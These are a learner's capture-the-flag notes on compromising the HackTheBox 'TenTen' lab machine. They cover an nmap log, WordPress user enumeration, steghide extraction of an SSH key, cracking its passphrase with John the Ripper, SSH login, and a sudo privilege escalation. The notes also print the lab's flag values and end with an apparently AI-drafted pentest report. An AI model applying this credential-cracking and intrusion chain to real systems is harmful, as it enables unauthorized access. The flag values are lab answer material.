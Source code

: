 # TenTenHTB
my obsidian notes from completing this box 
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
nmap:
			sudo nmap -vvv -sVC -Pn -T4 -p0-65535 10.10.10.10 
				RESULTS:  Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
		Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-08 23:45 CST
		NSE: Loaded 156 scripts for scanning.
		NSE: Script Pre-scanning.
		NSE: Starting runlevel 1 (of 3) scan.
		Initiating NSE at 23:45
		Completed NSE at 23:45, 0.00s elapsed
		NSE: Starting runlevel 2 (of 3) scan.
		Initiating NSE at 23:45
		Completed NSE at 23:45, 0.00s elapsed
		NSE: Starting runlevel 3 (of 3) scan.
		Initiating NSE at 23:45
		Completed NSE at 23:45, 0.00s elapsed
		Initiating Parallel DNS resolution of 1 host. at 23:45
		Completed Parallel DNS resolution of 1 host. at 23:45, 13.01s elapsed
		DNS resolution of 1 IPs took 13.01s. Mode: Async [#: 1, OK: 0, NX: 0, DR: 1, SF: 0, TR: 3, CN: 0]
		Initiating SYN Stealth Scan at 23:45
		Scanning 10.10.10.10 [65536 ports]
		Discovered open port 80/tcp on 10.10.10.10
		Discovered open port 22/tcp on 10.10.10.10
		SYN Stealth Scan Timing: About 7.12% done; ETC: 23:53 (0:06:44 remaining)
		SYN Stealth Scan Timing: About 16.21% done; ETC: 23:52 (0:05:15 remaining)
		SYN Stealth Scan Timing: About 34.34% done; ETC: 23:50 (0:02:54 remaining)
		SYN Stealth Scan Timing: About 45.72% done; ETC: 23:50 (0:02:38 remaining)
		Stats: 0:02:50 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
		SYN Stealth Scan Timing: About 58.00% done; ETC: 23:50 (0:01:54 remaining)
		SYN Stealth Scan Timing: About 73.23% done; ETC: 23:50 (0:01:08 remaining)
		SYN Stealth Scan Timing: About 83.10% done; ETC: 23:50 (0:00:44 remaining)
		Completed SYN Stealth Scan at 23:50, 268.22s elapsed (65536 total ports)
		Initiating Service scan at 23:50
		Scanning 2 services on 10.10.10.10
		Stats: 0:04:48 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
		Service scan Timing: About 50.00% done; ETC: 23:50 (0:00:07 remaining)
		Completed Service scan at 23:50, 6.44s elapsed (2 services on 1 host)
		NSE: Script scanning 10.10.10.10.
		NSE: Starting runlevel 1 (of 3) scan.
		Initiating NSE at 23:50
		Completed NSE at 23:50, 5.26s elapsed
		NSE: Starting runlevel 2 (of 3) scan.
		Initiating NSE at 23:50
		Completed NSE at 23:50, 0.77s elapsed
		NSE: Starting runlevel 3 (of 3) scan.
		Initiating NSE at 23:50
		Completed NSE at 23:50, 0.00s elapsed
		Nmap scan report for 10.10.10.10
		Host is up, received user-set (0.14s latency).
		Scanned at 2024-03-08 23:45:51 CST for 281s
		Not shown: 65534 filtered tcp ports (no-response)
		PORT   STATE SERVICE REASON         VERSION
		22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
		| ssh-hostkey: 
		|   2048 ec:f7:9d:38:0c:47:6f:f0:13:0f:b9:3b:d4:d6:e3:11 (RSA)
		| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQD0ZxDYLkSx3+n8qOc+tpjAd+KZ8STcHdayXH5Vn7gRhiI6toUP53yvS4ysmU4uq/QkX+oAJabm3H2WdVDySKvLVitCstPErNjKmi3Zr4ROlJVyv25eR0Wuo42PqDRCB0DN5SBZsoylDM1FN53ZTdiTC4Da4NM/3zfXzJgBpo8NdRyCZJnTufOdR8x4RE/0QU6UZR1cJPKKNmS/7qzHtMDZx5MM0li07d77mDpUoMCxPGCWlH5VsgpKBUSvdzd5xjilN5/tU/uwgL4FLTcMJF6DPDORYxJWjGO8ThSm8nf+kgxdv1iSF3olv++tReoWjVZy/xrEIdgHTcPjGggldR9v
		|   256 cc:fe:2d:e2:7f:ef:4d:41:ae:39:0e:91:ed:7e:9d:e7 (ECDSA)
		| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBERpTI9NMPamS6NaoLL5Y/nq+T19q1KR6GgtbsnmjCTtnGBKlaGI46uCPIYZwQ0MFDRg1hxq13rhLxl7JPIEjWU=
		|   256 8d:b5:83:18:c0:7c:5d:3d:38:df:4b:e1:a4:82:8a:07 (ED25519)
		|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIOrtl+D1cRlO2WrvblMacn5J5/rh+PTJmgxDwkBBfg7
		80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18
		| http-methods: 
		|_  Supported Methods: GET HEAD POST OPTIONS
		|_http-server-header: Apache/2.4.18 (Ubuntu)
		|_http-title: Did not follow redirect to http://tenten.htb/
		Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

		NSE: Script Post-scanning.
		NSE: Starting runlevel 1 (of 3) scan.
		Initiating NSE at 23:50
		Completed NSE at 23:50, 0.00s elapsed
		NSE: Starting runlevel 2 (of 3) scan.
		Initiating NSE at 23:50
		Completed NSE at 23:50, 0.00s elapsed
		NSE: Starting runlevel 3 (of 3) scan.
		Initiating NSE at 23:50
		Completed NSE at 23:50, 0.00s elapsed
		Read data files from: /usr/bin/../share/nmap
		Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
		Nmap done: 1 IP address (1 host up) scanned in 295.13 seconds

WordPress enumeration: 
	command: 
		sudo wpscan --url http://10.10.10.10 --enumerate u 
	Users Found: takis 

WordPress:
	///notice on the wordpress site youre able to navigate the rest of the website and view other applications by changing the # in the url:http://tenten.htb/index.php/jobs/apply/13/
	/// we know that WP stores all uploaded content  in /wp-content/uploads
	/// notice that when we change the # in the URL to 13 we see a "HackerAccessGranted" application 
	///navigate to the following URL: http://tenten.htb/wp-content/uploads/2017/04/HackerAccessGranted.jpg > save image to kali  

Steghide: 
	///trying to find any hidden information embedded in the image
		command: steghide extract -sf HackerAccessGranted.jpg      
			![[tentenHTB.png]]
	///notice that id_rsa is now on our kaliVM 
	///view the contents
		command: less id_rsa 
	///notice it is encrypted so well need to change the format into a hash that JohnTheRipper can crack
	
JohnTheRipper:
		command:  /usr/share/john/ssh2john.py id_rsa >id_rsa.login
	///now that we have the hash we need to run john to see if we can crack the password
			command:  /usr/sbin/john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.login
			///had to make sure wordlists was installed and unzipped
				command: sudo apt install wordlists           
				command: sudo gunzip /usr/share/wordlists/rockyou.txt.gz
				
			![[tenten1.png]]
			///We cracked the password and can see that it is "superpassword"
			/// Now we need to try to login to ssh using the username we found "takis" and the cracked password "superpassword"

SSH:
	command:  ssh -i id_rsa takis@10.10.10.10
		///if the command is not working you may need to  change the id_rsa file permissions
			command:  sudo chmod 600 id_rsa    
		///Enter the cracked password  & you're in HackerAccessGranted!! cat ![[tentenssh.png]]

PrivEsc: 
	sudo -l
		///see that a directory does not need a password  ![[tentenPriv.png]]
		///See that were root and now you can look around for the other flag!!

Flags: 
	User: ddcc806a63fdd7792ff886b26648cdaf
	Root: f6e949cb495eec767a1ec62e93827aeb

Post Pentest Report: 
			  
	Based on your notes, here's a draft for a professional and understandable post-penetration testing report for HackTheBox's host `10.10.10.10`.

	---

	# Penetration Testing Report for HackTheBox

	## Executive Summary

	This report documents the findings of a penetration test conducted against the host `10.10.10.10`, belonging to HackTheBox. The objective of this test was to identify vulnerabilities, assess the impact and risk of these vulnerabilities, and recommend actions to mitigate identified security issues.

	## Test Methodology

	The penetration test was conducted using a comprehensive approach, utilizing various tools and techniques to discover and exploit vulnerabilities. Key phases included:

	- **Network Scanning**: Using `nmap` for identifying open ports and services.
	- **Application Enumeration**: Specifically targeting WordPress installations to identify users and potential vulnerabilities.
	- **Content Discovery**: Exploring application behavior to discover hidden or sensitive information.
	- **Cryptanalysis**: Employing `steghide` and `JohnTheRipper` to uncover and crack encrypted data.
	- **Access Exploitation**: Utilizing discovered credentials to gain unauthorized access via SSH.
	- **Privilege Escalation**: Analyzing system configurations to escalate privileges.

	## Key Findings

	### 1. Open Ports and Services

	- **SSH (22/tcp)**: Running OpenSSH 7.2p2 Ubuntu 4ubuntu2.1.
	- **HTTP (80/tcp)**: Hosting an Apache httpd 2.4.18 server, redirecting to a WordPress site.

	### 2. WordPress Enumeration

	- A user named `takis` was discovered, indicating a potential vector for further attacks.

	### 3. Sensitive Data Exposure

	- A hidden application named "HackerAccessGranted" was found, containing an encrypted SSH private key.

	### 4. Cryptanalysis

	- The encrypted SSH private key was successfully decrypted using `JohnTheRipper`, revealing the password "superpassword".

	### 5. Unauthorized Access

	- Utilizing the decrypted SSH key and discovered password, unauthorized access was gained to the system as the user `takis`.

	### 6. Privilege Escalation

	- A misconfigured directory allowed executing commands as root without a password, leading to full system compromise.

	## Risk Assessment

	The discovered vulnerabilities pose a severe risk, potentially allowing an attacker to gain unauthorized access, escalate privileges to root, and compromise the entire system.

	## Recommendations

	1. **Update and Patch**: Ensure the operating system and all applications, especially the SSH and Apache services, are up-to-date with the latest security patches.
	2. **Password Policy**: Implement a strong password policy to prevent the use of weak passwords.
	3. **Encrypt Sensitive Data**: Use strong encryption for sensitive data and secure the decryption keys.
	4. **Regular Security Audits**: Conduct regular security audits and penetration tests to identify and mitigate new vulnerabilities.
	5. **Access Controls**: Review and tighten file and directory permissions to adhere to the principle of least privilege.

	## Conclusion

	The penetration test revealed several significant vulnerabilities within the host `10.10.10.10` that could potentially be exploited to gain unauthorized access and escalate privileges. Immediate action is recommended to address these issues and protect the system from potential threats. Regular security assessments are advised to maintain a robust security posture.

